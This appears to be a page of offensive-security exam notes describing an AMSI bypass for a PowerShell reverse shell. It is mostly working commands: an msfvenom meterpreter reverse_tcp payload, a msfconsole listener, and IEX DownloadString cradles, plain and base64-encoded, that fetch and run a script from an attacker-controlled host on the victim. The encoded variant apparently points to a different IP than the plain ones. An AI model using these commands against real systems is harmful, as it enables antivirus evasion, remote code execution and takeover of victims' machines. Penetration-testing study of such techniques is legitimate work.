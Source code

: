 # AMSI Bypass

<details>

<summary>Powershell Rev shell from CMD.exe</summary>

* Download all files from [https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI](https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI)

- Change Line 1 of `runall.ps1` to Kali's IP

* Host Python Webserver on Kali&#x20;
* Generate the following payload & put in line 44 of shellcoderunner.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

* Run following in victim

```powershell
#In CMD.exe
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#In Powershell.exe
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#Base64 encoded powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt
python b64_encode.py to_encode.txt
powershell -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA3AC8AcgB1AG4AYQBsAGwALgBwAHMAMQAnACkA
```

</details>



